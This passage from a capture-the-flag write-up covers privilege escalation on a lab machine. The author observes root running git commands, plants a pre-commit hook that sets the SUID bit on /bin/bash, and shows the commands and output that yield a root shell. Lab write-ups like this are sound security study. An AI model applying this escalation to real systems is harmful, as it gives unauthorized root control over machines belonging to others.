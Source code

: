 ## Privilege Escalation

### Analyzing the processes

Analyzing the processes with `pspy`, there are some `git` commands that are being executed by `root` user.

![git commands running as root](18.png "git commands running as root")

We can take advantage of `git hooks` and add a crafted payload in one of the hooks to escalate to root.

### Understading the git hooks

{{< admonition tip "Git Hooks" >}}
Git hooks are shell scripts found in the hidden . git/hooks directory of a Git repository. These scripts trigger actions in response to specific events, so they can help you automate your development lifecycle.
{{< /admonition >}}

Out of the `git hooks` there's one called `pre-commit` that lets you execute code before a commit.

{{< admonition tip "pre-commit" >}}
The pre-commit hook is run first, before you even type in a commit message. It's used to inspect the snapshot that's about to be committed, to see if you've forgotten something, to make sure tests run, or to examine whatever you need to inspect in the code.
{{< /admonition >}}

### Exploitation

We will add a `pre-commit` hook in `~/.git/hooks` folder and set the SUID bit for bash in it.

```
dev01@opensource:~$ echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit

dev01@opensource:~$ chmod +x ~/.git/hooks/pre-commit

dev01@opensource:~$ ls -al /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash

dev01@opensource:~$ bash -p

bash-4.4# whoami
root

bash-4.4#
```
